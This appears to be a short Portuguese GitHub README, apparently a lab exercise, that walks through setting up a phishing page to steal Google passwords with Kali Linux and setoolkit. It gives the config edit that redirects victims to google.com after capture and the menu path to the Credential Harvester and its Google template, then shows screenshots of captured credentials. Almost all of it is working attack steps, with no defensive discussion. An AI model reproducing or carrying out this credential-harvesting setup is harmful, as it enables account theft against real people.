 # Phishing para captura de senhas do Google

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Mudar permissão de arquivo: ``` chmod 744 /etc/setoolkit/set.config ```
- Alterar arquivo com nano: ``` nano +158 /etc/setoolkit/set.config ```
- Definir site para redirecionar após coleta: ``` HARVESTER_REDIRECT=ON HARVESTER_URL=http://google.com ```
- Salvar alterações: ```Ctrl + 0 e Press Enter```
- Sair do editor: ```Ctrl + X```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Web Templates ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Selecionar template: ``` Google ```

### Resutados

- Página Phishing Google
  
![Alt text](./page.PNG "pagina phishing google")

- Credenciais Coletadoas

![Alt text](./passwd.png "credenciais coletadas")
